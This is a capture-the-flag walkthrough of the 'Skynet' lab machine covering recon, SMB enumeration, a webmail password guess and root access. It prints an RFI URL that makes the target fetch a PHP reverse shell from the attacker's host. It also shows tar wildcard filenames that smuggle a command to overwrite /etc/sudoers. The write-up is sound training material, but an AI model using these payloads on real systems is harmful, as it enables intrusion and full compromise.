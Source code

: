 ![title](https://user-images.githubusercontent.com/46513413/79808126-db5f0200-833a-11ea-85e6-0765061d0476.png)


## Reconnaissance

Runing NMAP reveals the following open ports/services:

    PORT    STATE SERVICE     VERSION
    22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
    |   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
    |_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
    80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Skynet
    110/tcp open  pop3        Dovecot pop3d
    |_pop3-capabilities: RESP-CODES CAPA UIDL TOP SASL AUTH-RESP-CODE PIPELINING
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    143/tcp open  imap        Dovecot imapd
    |_imap-capabilities: LITERAL+ LOGINDISABLEDA0001 IMAP4rev1 OK post-login more capabilities LOGIN-REFERRALS listed have ID Pre-login IDLE SASL-IR ENABLE
    445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.80%E=4%D=4/19%OT=22%CT=1%CU=40871%PV=Y%DS=2%DC=T%G=Y%TM=5E9CE16
    OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=8)OPS
    OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
    OS:1NW7%O6=M54DST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
    OS:(R=Y%DF=Y%T=40%W=6903%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
    OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
    OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
    OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
    OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
    OS:=S)

    Network Distance: 2 hops
    Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    |_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: 0s
    |_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: skynet
    |   NetBIOS computer name: SKYNET\x00
    |   Domain name: \x00
    |   FQDN: skynet
    |_  System time: 2020-04-19T18:40:14-05:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2020-04-19T23:40:13
    |_  start_date: N/A


Running gobuster revealed the following directories: 

    /index.html 
    /admin 
    /ai 
    /config 
    /css 
    /js 
    /squirrelmail 
    /.htaccess 
    /.hta 
    /.htpasswd 
    /server-status 
    
    
## Services

**SMB**

Notable output from enum4linux.

     ======================================= 
    |    Share Enumeration on 10.10.2.29    |
     ======================================= 

            Sharename       Type      Comment
            ---------       ----      -------
            print$          Disk      Printer Drivers
            anonymous       Disk      Skynet Anonymous Share
            milesdyson      Disk      Miles Dyson Personal Share
            IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
    SMB1 disabled -- no workgroup available

    [+] Attempting to map shares on 10.10.2.29
    //10.10.2.29/print$     Mapping: DENIED, Listing: N/A
    //10.10.2.29/anonymous  Mapping: OK, Listing: OK
    //10.10.2.29/milesdyson Mapping: DENIED, Listing: N/A
    //10.10.2.29/IPC$       [E] Can't understand response:
    NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
    
    S-1-5-21-2393614426-3774336851-1116533619-1000 SKYNET\milesdyson (Local User)
    
 We now have share list, share permissions and a valid system user.  

 We have anonymous access to the anonymous share.
 I downloaded all of the files in the share and found log files. 
 
 The log file titled log1.txt contains user passwords.
 
 
**HTTP**

![skynet](https://user-images.githubusercontent.com/46513413/79807914-41975500-833a-11ea-923f-1287fde183e5.png)

The site itself is nothing special. The sites fundtions are either a POST request for either "Skynet+search" or "I;m Feeling Lucky" without the actual content of the search bar. 

  /squirrelmail - login page for SquirrelMail Login Webmail
  

## Gaining access

**Squirrel mail:**

Trying the system user **milesdyson** with the list of passwords from the log file reveals the valid password.

![mail](https://user-images.githubusercontent.com/46513413/79807912-41975500-833a-11ea-929a-07f7786f2ffa.png)

There are three emails in the inbox. The first one contains the milesdyson SMB share password . One of the other two is *"i can i i everything else . . . . . . . . . . . . . . balls have zero to me to me to me to me to me to me to me to me to"* and the other one is that phrase in binary.


**SMB**

Now that we know Miles' password, we are able to log into the milesdyson SMB share. The file notes/important.txt reveals a hidden directory the Miles has and mentions a CMS.

/45kra24zxs28v3yd

![miles](https://user-images.githubusercontent.com/46513413/79807911-41975500-833a-11ea-88b6-edef5c6bfac9.png)


There was nothing special or manipulatable on this page. The CMS mention in the note prompted me to run another directory bust attempt. Running gobuster again on this directory reveals an administrator directory.


![cms](https://user-images.githubusercontent.com/46513413/79807910-40febe80-833a-11ea-9816-eb1f13913b08.png)


Running searchsploit for cuppa shows one RFI/LFI vulnerability.

I ran the SimpleHTTP python module in a directory that contains my php reverse shell script. When the php script is ran it will call back to my system. 
 
I exploited the RFI vulnerability to call the php reverse shell script on my system. 

    http://10.10.184.129/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.3.104/php-reverse-shell.php

The SKYNET box requested and executed my php script that then called back to my machine listenting on port 1234.

I am now user www-data and can read the user.txt file in /home/milesdyson. 

## Upgrading shell to meterpreter 

Created the payload called shell.elf uisng msfvenom. 

Used msf exploit/multi/handler to listened for the call back.

I used the python SimpleHTTP to host shell.elf.

Using my current shell with SKYNET I went to a directory that I can write in /var/www/html. I used wget to download shell.elf and gave it executable permissions with chmod.

After running this I had a successful meterpreter shell on SKYNET.

![meterpreter](https://user-images.githubusercontent.com/46513413/79807913-41975500-833a-11ea-9d6f-72b93177efa0.png)

## Privilege escalation

I used the metasploit exploit suggester script and uploaded and ran [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

    run post/multi/recon/local_exploit_suggester
    
  Out of the 3 suggested local exploits the [BPF sign extension](https://www.rapid7.com/db/modules/exploit/linux/local/bpf_sign_extension_priv_esc) worked and I was able to obtain a root shell. 
  
  The linpeas output and manual poking around releaved a backups job that gets run and saved to /home/milesdyson/backsups. The script is owned and ran as root using tar for the backups.  

Reading this awsome article by **int0x33** shows excatly how to abuse the wildcard in "tar * " into using file names as command arguments to be able to either run a reverse shell script or add the current user into the sudoers file.
 
I decided to go the sudoers route. I ran "shell" to drop into a normal shell and ran the following to have a proper tty terminals session. 

    python -c 'import pty;pty.spawn("/bin/bash")';
 
I moved to /var/www/html (which is the directory being tar'd) and ran the following.

    echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
    echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
    echo "/var/www/html"  > --checkpoint=1

After short while I ran "sudo -l" with the following results.

    User www-data may run the following commands on skynet:
        (root) NOPASSWD: ALL

I am now able to run "sudo cat /root/root.txt" :)

![root](https://user-images.githubusercontent.com/46513413/79807915-422feb80-833a-11ea-8a7b-a1246d61051c.png)
